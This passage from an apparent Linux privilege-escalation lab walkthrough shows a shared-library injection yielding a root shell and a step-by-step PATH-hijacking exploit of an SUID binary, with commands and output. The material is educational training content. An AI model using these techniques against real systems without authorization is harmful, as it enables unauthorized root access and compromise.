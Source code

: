```bash
user@debian:~$ gcc -shared -fPIC -o /home/user/.config/libcalc.so /home/user/tools/suid/libcalc.c
user@debian:~$ /usr/local/bin/suid-so
Calculating something, please wait...
bash-4.1# id
uid=0(root) gid=1000(user) egid=50(staff) groups=0(root),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),1000(user)
bash-4.1# 
```

# [Task 13] SUID / SGID Executables - Environment Variables

The /usr/local/bin/suid-env executable can be exploited due to it inheriting the user's PATH environment variable and attempting to execute programs without specifying an absolute path.

First, execute the file and note that it seems to be trying to start the apache2 webserver:

```bash
/usr/local/bin/suid-env
```

Run strings on the file to look for strings of printable characters:

```bash
strings /usr/local/bin/suid-env
```

One line ("service apache2 start") suggests that the service executable is being called to start the webserver, however the full path of the executable (/usr/sbin/service) is not being used.

Compile the code located at /home/user/tools/suid/service.c into an executable called service. This code simply spawns a Bash shell:

```bash
gcc -o service /home/user/tools/suid/service.c
```

Prepend the current directory (or where the new service executable is located) to the PATH variable, and run the suid-env executable to gain a root shell:

```bash
PATH=.:$PATH /usr/local/bin/suid-env
```

**Remember to exit out of the root shell before continuing!**

## #1 - Read and follow along with the above.

```bash
user@debian:~$ ls -l /usr/local/bin/suid-env
-rwsr-sr-x 1 root staff 6883 May 14  2017 /usr/local/bin/suid-env
user@debian:~$ /usr/local/bin/suid-env
[....] Starting web server: apache2httpd (pid 1496) already running
. ok 
user@debian:~$ strings /usr/local/bin/suid-env
/lib64/ld-linux-x86-64.so.2
5q;Xq
__gmon_start__
libc.so.6
setresgid
setresuid
system
__libc_start_main
GLIBC_2.2.5
fff.
fffff.
l$ L
t$(L
|$0H
```